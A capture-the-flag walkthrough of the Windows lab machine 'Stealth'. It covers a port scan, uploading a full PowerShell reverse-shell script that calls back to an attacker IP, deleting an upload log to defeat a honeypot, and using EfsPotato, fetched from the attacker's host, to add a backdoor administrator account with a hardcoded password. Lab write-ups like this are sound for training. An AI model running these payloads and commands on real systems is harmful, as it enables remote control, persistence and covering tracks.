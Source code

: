 # Stealth

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.8.5 -oN port_scan.txt

Nmap scan report for 10.10.8.5
Host is up (0.040s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-05T12:35:28+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-05T12:34:48+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Not valid before: 2025-08-04T12:31:38
|_Not valid after:  2026-02-03T12:31:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
8000/tcp  open  http          PHP cli server 5.5 or later
|_http-title: 404 Not Found
8080/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Try to upload a ps1 with a reverse shell to understand what is blocked and what not.

<details>

<summary>ps1 payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.23.52.142', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close

```

</details>

```bash
penelope
m
listeners add -i tun0 -p 13337
```

We got a shell without anything restrictions

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking inside the evader's desktop we can view this file:

```powershell
SHELL> more encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----


```

Decode this from base64 we obtain this:

{% code overflow="wrap" %}
```bash
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d                             

You can get the flag by visiting the link http://10.10.8.5:8000/asdasdadasdjakjdnsdfsdfs.php                                                                                                                    
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

The file is a HoneyPot, try to follow the hint.

Go to Xampp uploads directory in the htdocs

```
cd C:\xampp\htdocs\uploads
rm log.txt
```

And now refresh the web page.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got the user flag.



## PrivEsc

WinPEAS was blocked by AV. We can try others script but we not found any interesting thing.

### p0wny shell

Uploading the more stable shell like p0wny shell we notice that we are more privilges

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>



### EFS potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

EfsPotato.exe whoami

# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add && net localgroup Administrators Antoadmin /add"
```
{% endcode %}



### RDP Access

```
xfreerdp3 /v:IP /u:Antoadmin /p:'Password123!'
```

